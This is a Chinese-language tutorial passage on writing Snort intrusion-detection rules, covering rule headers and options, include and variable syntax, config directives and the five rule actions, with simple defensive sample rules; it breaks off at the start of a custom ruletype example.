Snort 用法非常简单，是轻量级规则描述语言，灵活而且非常强大。下面有许多简单的方法，可以指导你开发 Snort 规则。

1.8 版本以前的 Snort，许多 Snort 规则都可以被写在一行里面。当前的 Snort 版本，规则扩展成多行，在每行的最后增加一个反斜杠。

Snort 规则被分为两个逻辑部分，规则头（rule header）和规则选项（rule options）。规则头包含了规则的行为、协议、源和目的 IP 地址和掩码。如果规则动作被触发了，规则选项部分包含警报信息和检查包的哪一部分信息。

例 1 举例说明一个简单的 Snort 规则。

```text
alert tcp any any -> 192.168.1.0/24 111 (content: "|00 01 86 a5|";
    msg: "mountd access";)

例 1: Sample Snort Rule
```

在例 1 中，第一个圆括号前面的部分是规则头（rule header），圆括号中包含的部分是规则选项部分（rule options）。在规则选项部分里，冒号前的单词被叫做选项关键字（option keywords）。注意的是规则选项这部分并非所有规则中都必须包含，使用选项部分仅仅为了控制数据包的收集或警报。所有这些构成部分必须包含有规则动作部分。总的看来，成分都要从逻辑和语句考虑。同时，不同的规则在 Snort 规则库文件中能够被分析为逻辑和语句。

##### 1. Include

这是 Snort 版本 1.3.1.2 之后加入的新规则，提供了文件剖析功能，由 Christian Lademann 开发，包含两个新的文件规则关键字。第一个关键字是 include，允许由命令行指定的规则文件包含其他的规则文件。

```text
格式
include: <include file path/name>
```

注意：在行的最后没有分号结束。在我们引用变量的时候，被包含的文件将代替任何被重新定义的变量。查看变量部分中的定义和使用，Snort 规则文件中的变量可获得更多信息。

##### 2. Variables

变量能够在 Snort 中定义。在例 2 中简单地替换变量，设置变量的关键字。

```text
格式
var: <name> <value>
var MY_NET [192.168.1.0/24,10.1.1.0/24]
alert tcp any any -> $MY_NET any (flags: S; msg: "SYN packet";)

例 2: Example of Variable Definition and Usage
```

修改规则变量名的方式有几种。你可以定义变量之后用“$”操作它。修改变量的操作使用“?”和“-”。

- `$var` — 定义源变量。
- `$(var)` — 替换变量“var”的内容。
- `${var:-default}` — 当“var”没有被定义的时候，用“default”替换变量“var”内容。
- `${var:?message}` — 替换了“var”的内容之后打印输出错误消息“message”并且退出。

例 3 是一个规则修改动作。

```text
var MY_NET $(MY_NET:-192.168.1.0/24)
log tcp any any -> $(MY_NET?MY_NET is undefined!) 23

例 3: Advanced Variable Usage Example
```

##### 3. Config

Snort 的很多配置和命令行选项可以指定一个配置文件。

```text
格式
config <directive>[: <value>]
```

- 指示参数
- `order` — 改变规则次序（snort -o）
- `alertfile` — 设置警报输出文件。例：`config alertfile: alerts`
- `classification` — 建立规则分类
- `decode_arp` — 打开 ARP 显示（snort -a）
- `dump_chars_only` — 打开字符打印（snort -C）
- `dump_payload` — 复制应用层（snort -d）
- `decode_data_link` — 显示第二层（数据链路层）包头信息
- `bpf_file` — 指定 BPF 过滤（snort -F）。例：`config bpf_file: filename.bpf`
- `set_gid` — 改变 snort 的 GID（snort -g）。例：`config set_gid: snort_group`
- `daemon` — 在后台运行 snort（精灵状态）
- `reference_net` — 设置 Home 网络（snort -h）。例：`config reference_net: 192.168.1.0/24`
- `interface` — 设置监听网卡（snort -i）。例：`config interface: xl0`
- `alert_with_interface_name` — 追加网卡名称到警报中（snort -T）
- `logdir` — 设置日志目录（snort -l）。例：`config logdir: /var/log/snort`
- `umask` — 运行时的 Umask（snort -m）。例：`config umask: 022`
- `pkt_count` — 收到 N 个包之后退出（snort -n）。例：`config pkt_count: 13`
- `nolog` — 关闭日志功能：警报依然有效（snort -N）
- `obfuscate` — 打乱 IP 地址（snort -O）
- `no_promisc` — 关闭混杂模式（snort -p）
- `quiet` — 不输出 banner 和状态报告（snort -q）
- `chroot` — 初始化完成后 Chroot 到指定目录（snort -t）。例：`config chroot: /home/snort`
- `checksum_mode` — 计算检查包类型和值：`none, noip, noicmp, noudp, all`
- `set_uid` — 设置 snort 的 UID。例：`config set_uid: snort_user`
- `utc` — 使用 UTC 代替本地时间（snort -U）
- `verbose` — 使用冗余模式（snort -v）
- `dump_payload_verbose` — 从数据链路层开始复制包的数据（snort -X）
- `show_year` — 查看时间信息中的年（snort -y）
- `stateful` — 设置保证模式

#### 二、规则头

##### 1. 规则动作

规则头包含了一个包的定义信息：“谁，哪儿，做什么”，以及包的所有属性被指定在规则中。规则的动作是规则的第一条。规则动作告诉 Snort 当找到一个包匹配规则特征的时候该做什么。Snort 中有 5 种默认的动作：alert、log、pass、activate 和 dynamic。

- 1. `alert` — 产生一个选定的警报模式警报，并记录包。
- 2. `log` — 记录包。
- 3. `pass` — 忽略包。
- 4. `activate` — 警报然后打开另一个动态规则。
- 5. `dynamic` — 闲置，直到一个动态规则活动起来，然后充当一个日志规则。

你同样能定义你自己的规则类型，并关联它们的输出插件。然后你在 Snort 中可以使用这些规则类型和动作。这个例子将建立一个仅仅使用 tcpdump 日志的类型：

```text
ruletype suspicious
{
    type: log, output
    log_tcpdump: suspicious.log
}
```

这个例子将建立一个 syslog 和 MySQL 数据库日志规则类型。

```text
ruletype redalert
```